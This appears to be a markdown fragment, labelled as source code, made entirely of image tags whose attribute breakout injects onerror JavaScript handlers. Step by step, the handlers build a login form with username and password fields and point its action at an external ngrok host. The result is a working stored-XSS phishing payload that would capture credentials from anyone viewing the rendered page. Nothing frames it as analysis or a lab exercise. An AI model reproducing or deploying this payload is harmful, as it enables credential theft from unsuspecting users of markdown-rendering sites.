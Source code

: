 ![]("onerror="f=document.createElement('form'))
![]("onerror="(f.action='http://c14e-212-3-195-18.ngrok.io'))
![]("onerror="document.body.appendChild(f))
![]("onerror="u=document.createElement('input'))
![]("onerror="(u.name='username'))
![]("onerror="f.appendChild(u))
![]("onerror="p=document.createElement('input'))
![]("onerror="(p.name='password'))
![]("onerror="f.appendChild(p))
![]("onerror="b=document.createElement('button'))
![]("onerror="(b.type='submit'))
![]("onerror="f.appendChild(b))